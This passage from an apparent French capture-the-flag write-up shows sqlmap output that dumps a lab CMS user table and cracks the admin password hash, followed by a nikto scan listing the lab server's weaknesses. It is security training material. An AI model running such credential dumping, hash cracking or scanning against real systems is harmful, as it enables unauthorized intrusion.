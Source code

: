 ```console
[3] file with list of dictionary files
> 1
[00:11:22] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[00:11:22] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[00:11:22] [INFO] starting 2 processes 
[00:11:22] [INFO] cracked password 'adminpass' for hash '25e4ee4e9229397b6b17776bfceaf8e7'
Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
```

[L'attaque par dictionnaire sur le hash de mot de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) a porté ses fruits : on a récupéré le mot de passe de l'admin !

## Recherche d'autres vulnérabilités Web avec nikto

Un peu de recherche automatisée ne fera pas de mal avec [nikto](https://cirt.net/nikto2-docs/), un outil d'audit pour serveurs Web.

```console
root@blinils:~# nikto -h http://192.168.56.101/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2018-01-01 12:34:56 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.3 (CentOS)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.2.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.3 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /files/: Directory indexing found.
+ OSVDB-3092: /files/: This might be interesting...
+ OSVDB-3268: /lib/: Directory indexing found.
+ OSVDB-3092: /lib/: This might be interesting...
+ Cookie roundcube_sessid created without the httponly flag
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server leaks inodes via ETags, header found with file /phpmyadmin/ChangeLog, inode: 97164, size: 35791, mtime: Wed Oct 19 22:47:44 2095
```